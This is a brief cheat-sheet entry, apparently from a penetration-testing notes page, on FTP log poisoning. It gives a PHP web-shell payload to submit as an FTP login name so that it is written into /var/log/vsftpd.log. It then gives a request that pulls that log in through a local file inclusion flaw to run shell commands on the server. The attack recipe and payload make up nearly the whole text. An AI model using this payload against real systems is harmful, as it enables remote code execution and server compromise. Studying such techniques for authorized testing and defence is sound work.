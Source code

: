 ## FTP log poisoning

- If the web app has FTP server, a file called ```/var/log/vsftpd.log``` is used to keep the log of login activities of its FTP server;

- Thus, for example, if the web back end using PHP 7, we can try log in to ftp server with username ``` ‘<?php system($_GET[‘commandInjection’]); ?>’```. Then, the payload would be stored inside the log file.

- Then, if LFI exists, an RCE can be done by ```/var/log/vsftpd.log&commandInjection=ifconfig```.
